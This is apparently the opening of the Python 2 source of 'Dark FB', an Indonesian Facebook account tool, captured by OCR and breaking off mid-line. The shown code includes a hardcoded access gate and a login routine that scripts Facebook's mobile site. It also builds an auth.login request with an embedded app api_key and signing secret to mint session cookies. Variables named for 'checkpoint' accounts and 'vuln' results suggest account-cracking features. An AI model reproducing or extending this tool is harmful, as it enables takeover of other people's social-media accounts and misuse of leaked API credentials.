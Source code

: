 #!/usr/bin/python2 # coding=utf-8 import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize from multiprocessing.pool import ThreadPool from requests.exceptions import ConnectionError from mechanize import Browser reload(sys) sys.setdefaultencoding('utf8') br = mechanize.Browser() br.set_handle_robots(False) br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1) br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')] def keluar(): print "\033[1;96m[!] \x1b[1;91mExit" os.sys.exit() def acak(x): w = 'mhkbpcP' d = '' for i in x: d += '!'+w[random.randint(0,len(w)-1)]+i return cetak(d) def cetak(x): w = 'mhkbpcP' for i in w: j = w.index(i) x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j)) x += '\033[0m' x = x.replace('!0','\033[0m') sys.stdout.write(x+'\n') def jalan(z): for e in z + '\n': sys.stdout.write(e) sys.stdout.flush() time.sleep(0.05) logo = """ \x1b[1;93m______ \x1b[1;92m_______ \x1b[1;94m______ \x1b[1;91m___ _\n \x1b[1;93m| | \x1b[1;92m| _ |\x1b[1;94m| _ | \x1b[1;91m| | | |\n \x1b[1;93m| _ |\x1b[1;92m| |_| |\x1b[1;94m| | || \x1b[1;91m| |_| |\n \x1b[1;93m| | | |\x1b[1;92m| |\x1b[1;94m| |_||_ \x1b[1;91m| _|\n \x1b[1;93m| |_| |\x1b[1;92m| |\x1b[1;94m| __ |\x1b[1;91m| |_ \n \x1b[1;93m| |\x1b[1;92m| _ |\x1b[1;94m| | | |\x1b[1;91m| _ |\n \x1b[1;93m|______| \x1b[1;92m|__| |__|\x1b[1;94m|___| |_|\x1b[1;91m|___| |_| \x1b[1;96mFB\n\n \x1b[1;95m●▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬●\n ✫╬─ \x1b[1;92mReCode \x1b[1;91m: \x1b[1;93mLhans_Beutik \x1b[1;95m─╬✫\n ✫╬─ \x1b[1;92mFB \x1b[1;92m \x1b[1;91m: \x1b[1;96mFacebook.com/LhansBeutik \x1b[1;95m─╬✫\n ✫╬─ \x1b[1;92mGitHub \x1b[1;91m: \x1b[1;94mGithub.com/lhansbeutik \x1b[1;95m─╬✫\n ●▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬▬● """ def tik(): titik = ['. ','.. ','... '] for o in titik: print("\r\033[1;96m[●] \x1b[1;93mSedang masuk \x1b[1;97m"+o),;sys.stdout.flush();time.sleep(1) back = 0 threads = [] berhasil = [] cekpoint = [] oks = [] id = [] listgrup = [] vulnot = "\033[31mNot Vuln" vuln = "\033[32mVuln" def siapa(): os.system('clear') nama = raw_input("\033[1;97mSiapa nama kamu ? \033[1;91m: \033[1;92m") if nama =="": print"\033[1;96m[!] \033[1;91mIsi yang benar" time.sleep(1) siapa() else: os.system('clear') jalan("\033[1;97mSelamat datang \033[1;92m" +nama+ "\n\033[1;97mTerimakasih telah menggunakan tools ini !!") time.sleep(1) loginSC() def loginSC(): os.system('clear') print"\033[1;97mSilahkan login SC nya dulu bosque\n" username = raw_input("\033[1;96m[*] \033[1;97mUsername \033[1;91m: \033[1;92m") password = raw_input("\033[1;96m[*] \033[1;97mPassword \033[1;91m: \033[1;92m") if username =="dark" and password =="fb": print"\033[1;96m[✓] \033[1;92mLogin success" time.sleep(1) login() else: print"\033[1;96m[!] \033[1;91mSalahBangsat!!" time.sleep(1) LoginSC() def login(): os.system('clear') try: toket = open('login.txt','r') menu() except (KeyError,IOError): os.system('clear') print logo print 42*"\033[1;96m=" print('\033[1;96m[☆] \x1b[1;93mLOGIN AKUN FACEBOOK ANDA \x1b[1;96m[☆]' ) id = raw_input('\033[1;96m[+] \x1b[1;93mID/Email \x1b[1;91m: \x1b[1;92m') pwd = raw_input('\033[1;96m[+] \x1b[1;93mPassword \x1b[1;91m: \x1b[1;92m') tik() try: br.open('https://m.facebook.com') except mechanize.URLError: print"\n\033[1;96m[!] \x1b[1;91mTidak ada koneksi" keluar() br._factory.is_html = True br.select_form(nr=0) br.form['email'] = id br.form['pass'] = pwd br.submit() url = br.geturl() if 'save-device' in url: try: sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32' data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resource
